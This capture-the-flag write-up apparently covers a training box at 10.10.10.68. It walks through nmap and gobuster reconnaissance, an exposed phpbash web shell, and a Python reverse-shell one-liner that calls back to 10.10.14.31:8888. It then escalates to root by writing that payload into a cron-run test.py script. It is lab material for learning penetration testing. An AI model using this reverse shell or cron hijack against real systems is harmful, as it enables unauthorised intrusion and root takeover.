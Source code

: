 ![](images/boxInfo.png)

## nmap
nmap -sC -sV 10.10.10.68
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-19 18:34 EST
Nmap scan report for 10.10.10.68
Host is up (0.28s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache/2.4.18 (Ubuntu)
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 346.69 seconds
```

## gobuster
```
/root/go/bin/gobuster dir -u http://10.10.10.68/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt -t 50
```

![](images/gobuster.png)

![](images/dev.png)

![](images/phpbash.png)

## reverse shell

https://highon.coffee/blog/reverse-shell-cheat-sheet/  
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

I used this python command to get a reverse shell 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![](images/reverseShell.png)

## privEsc

during enumeration I found /scripts directory whose owner was scriptmanager 

![](images/scripts.png)

test.txt is owned by root and to write to it test.py must be run as root  
from the output of "ls -al" we can see the test.txt was updated a minute ago  
so test.py might be running as a root cronjob

![](images/scriptsls.png)

as test.py is owned by scriptmanager and ran by root we can modify it get reverse shell with the same payload used for www-data reverse shell  
to run nano, we can use "export TERM=xterm" and for auto-completion we can use "stty raw -echo && fg"

![](images/exportTerm.png)

![](images/test.py.png)

![](images/rootShell.png)

